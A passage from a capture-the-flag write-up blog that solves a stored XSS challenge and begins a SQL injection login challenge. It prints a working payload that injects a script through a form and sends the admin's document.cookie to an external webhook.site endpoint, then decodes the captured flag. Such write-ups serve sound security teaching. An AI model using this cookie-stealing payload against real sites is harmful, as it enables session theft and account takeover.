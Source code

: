 Simple submit form with no validation at all. From the hint in the challenge description, it is clear that you have to perform a Stored XSS attack that will send the admin cookies to the endpoint you control (or at least can read incoming requests from). If you want to read in detail about that method, please refer to the [Toy Workshop writeup](https://blog.cyberethical.me/htb-cyber-santa-ctf-2021-toy-workshop).

Because server that is running a challenge has access to the Internet, it was easier this time because I could use a [webhook.site](https://webhook.site/) service.

I've determined that only thing I have to do is to make a POST request to \`[http://ctf.securitum.ninja/ctf1/](http://ctf.securitum.ninja/ctf1/)\` and just wait for the cookies (with flag) to arrive.

```javascript
var q = "<script>fetch('https://webhook.site/76ed31cc-0a98-47e5-8186-****f345****/flag', {method:'POST', body: document.cookie});</script>";

fetch("http://ctf.securitum.ninja/ctf1/", {
  "headers": {
    "content-type": "application/x-www-form-urlencoded",
  },
  "body": "message="+q,
  "method": "POST"
});
```

In the meantime, I started solving other challenges. When the time comes, I've noticed a matching response.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1684655779503/08aab268-49f8-4fb0-a861-6ca98b9ebaee.png align="center")

> During the CTF organizer come to realization that the solution is a bit too complicated for this kind of event (no solves), so he made a change skipping the "one" step in decyphering the flag. Final version of the challenge is described here.
> 
> The initial one with more details regarding the fun backstory is at the end of the article :).

`flag=MSHP_%7BU0d3UD03WkAmakpjVnoj%7D; msg=Oh_WaiT_TheRe_iS_some_ncryption_Here`

After a simple URL decoding: `MSHP_{U0d3UD03WkAmakpjVnoj}`. That didn't work so I've tried decoding it from base64 and that was a hit.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1684656262407/ee95f90d-0ac2-407a-ba38-eb842015f1db.png align="center")

# Challenge 2: login inject0r

> Do you remember the good 0l' days where noone knew about UNION SELECT or TIME statements? Get back to r00ts with this twisted easy SQL injection.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1684656952892/a3153b6c-acd2-42cc-82f3-987ef1657fe1.png align="center")

Basic SQL Injection - with a twist, becasue

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1684657024076/9dd52763-c352-4a19-9074-f83fa0e50824.png align="center")
